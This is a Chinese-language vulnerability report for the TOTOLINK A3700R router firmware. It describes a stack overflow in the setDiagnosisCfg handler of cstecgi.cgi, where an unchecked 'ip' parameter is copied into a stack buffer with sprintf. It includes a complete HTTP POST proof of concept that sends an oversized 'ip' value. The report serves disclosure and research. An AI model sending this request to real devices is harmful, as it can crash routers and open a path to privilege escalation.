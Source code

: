 

### **概述**：
影响设备：totolink A3700R

影响固件版本：V9.1.2u.6165_20211012

影响：堆栈溢出，可以造成拒绝服务和权限提升

固件下载地址：<https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip>

报送邮箱 : zwx918569613@gmail.com


![](Pasted%20image%2020231022165035.png)

### **漏洞**：

该漏洞位于`cstecgi.cgi`中的函数`FUN_00422a38`，函数别名`setDiagnosisCfg`


![](Pasted%20image%2020231023202539.png)


`cstecgi.cgi`通过`topicurl`的值实现处理不同的函数接口
这里对传入命令合法性进行了验证，过滤了命令注入的漏洞
但是并未对传入的参数`ip`进行长度限制，而`sprintf`格式化拼接参数`ip`到变量`acStack_90`中，存在堆栈溢出漏洞


### **POC**:

复现漏洞可以通过使用真机或者使用qemu模拟
使用下方POC可以打通

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 507
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1698059537:2
Connection: close

{
"topicurl": "setting/setDiagnosisCfg",
"ip":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
}
~~~

### **影响效果**：


![](Pasted%20image%2020231023202309.png)